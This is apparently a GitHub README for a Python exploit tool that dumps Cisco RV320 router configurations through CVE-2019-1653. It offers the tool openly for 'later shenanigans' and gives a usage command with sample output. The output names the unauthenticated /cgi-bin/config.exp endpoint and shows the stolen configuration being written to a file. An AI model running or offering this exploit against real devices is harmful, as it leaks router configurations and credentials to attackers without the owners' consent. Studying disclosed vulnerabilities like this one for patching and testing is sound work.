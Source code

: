 # CiscoRV320Dump
CVE-2019-1653 Exploit For Dumping Cisco RV320 Configurations

All this does is dump the config out to a file for later shenanigans using the [CVE-2019-1653](https://seclists.org/fulldisclosure/2019/Jan/52) exploit disclosed by Red Team Pentesting GmbH.

Example Use:
```
$ python getconfig.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config! Writing to output/x.x.x.x_8443.conf
$
```
